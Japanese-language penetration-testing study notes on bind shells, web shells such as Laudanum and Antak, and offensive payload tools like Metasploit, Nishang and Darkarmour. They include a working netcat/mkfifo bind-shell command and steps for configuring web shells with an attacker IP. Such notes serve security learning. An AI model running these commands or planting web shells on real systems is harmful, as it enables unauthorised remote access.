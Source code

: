 
### バインドシェル
ターゲット側でポート開いて待ち受けて、そこに攻撃者がアクセスすることで、シェルを取得する
バインドシェルの方が防御されやすい
- 接続は受信されるため、リスナーの起動時に標準ポートを使用しても、ファイアウォールによって検出およびブロックされる可能性が高くなるから

コマンド
- ターゲット側
```shell-session
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <ターゲットのIP> 7777 > /tmp/f
```
- 攻撃者側
```shell-session
nc -nv <ターゲットのIP> 7777
```

### Webシェル
- webページ上でのシェル
- 普通に使い勝手悪くね？
- リバースシェルでいいんじゃねとか思っちゃうけど
	- そもそもリバースシェルのコマンドを仕込めない（アップロードしかできない、またはコマンド実行の権限が限定的）
	- 外向き通信（外部への接続）が制限されている
	- Web インターフェース越しに操作できる手段が欲しい（内向き通信しか許可されていないネットワークなど）
- PHPWebshell
	- https://github.com/WhiteWinterWolf/wwwolf-php-webshell
Windows
- Laudanum
	- `asp, aspx, jsp, php,`などを含む多くの異なるwebシェルの一覧がある
	- `/usr/share/laudanum`にある
	- Laudanum内のほとんどのファイルについては、そのままコピーして、被害者の実行に必要な場所に配置できる
	- シェルなどの特定のファイルについては、最初にファイルを編集して`attacking`するホストのIPアドレスを挿入して、Webシェルにアクセスしたり、リバースシェルを使用するインスタンスでコールバックを受信したりする必要がある
	- 59行目に攻撃者のIPも書き加える
- Antak
	- `/usr/share/nishang/Antak-WebShell`にある
	- Powershellコマンドを使えるwebシェル
	- 編集する必要がある
		- 14行目を、ユーザー（緑の矢印）とパスワード（オレンジ色の矢印）を追加する
	- 以下の画像のように付け加える

![](https://i.imgur.com/BVfKA3s.png)

### その他のペイロード生成ツール

|                                   |                                                                                                                                                                                                              |
| --------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `MSFVenom & Metasploit-Framework` | [Source](https://github.com/rapid7/metasploit-framework) MSFは、あらゆるペンテスターのツールキットのための非常に汎用性の高いツールです。これは、ホストを列挙し、ペイロードを生成し、パブリックエクスプロイトとカスタムエクスプロイトを利用し、ホストで一度エクスプロイト後のアクションを実行する方法として機能します。スイスアーミーナイフと考えてください。 |
| `Payloads All The Things`         | [ソース](https://github.com/swisskyrepo/PayloadsAllTheThings) ここでは、ペイロード生成と一般的な方法論に関するさまざまなリソースとチートシートを見つけることができます。                                                                                             |
| `Mythic C2 Framework`             | [ソース](https://github.com/its-a-feature/Mythic) Mythic C2フレームワークは、独自のペイロード生成のためのコマンドおよび制御フレームワークおよびツールボックスとしてのMetasploitの代替オプションです。                                                                           |
| `Nishang`                         | [Source](https://github.com/samratashok/nishang) Nishangは、Offensive PowerShellインプラントとスクリプトのフレームワークコレクションです。これには、どのペンテスターにも役立つ多くのユーティリティが含まれています。                                                             |
| `Darkarmour`                      | [Source](https://github.com/bats3c/darkarmour) Darkarmourは、Windowsホストに対して使用するために難読化されたバイナリを生成して利用するツールです。                                                                                                    |
